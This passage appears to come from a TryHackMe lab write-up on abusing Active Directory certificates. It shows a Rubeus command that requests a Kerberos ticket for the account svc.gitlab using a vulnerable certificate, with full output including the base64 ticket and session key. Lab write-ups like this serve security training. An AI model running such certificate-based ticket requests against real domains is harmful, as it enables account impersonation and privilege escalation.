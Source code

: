 <u>Before</u>:

![](/assets/img/Pasted image 20230216190535.png)

	- Don't forget to move 'vulncert' inside THMTools.

- Once we execute the command, we should receive our TGT:

```powershell
PS C:\THMTools> .\Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:svc.gitlab.kirbi /domain:lunar.eruca.com /dc:10.10.69.219
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/lunar.eruca.com
         ServiceRealm             :  LUNAR.ERUCA.COM
         UserName                 :  svc.gitlab
         UserRealm                :  LUNAR.ERUCA.COM
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
```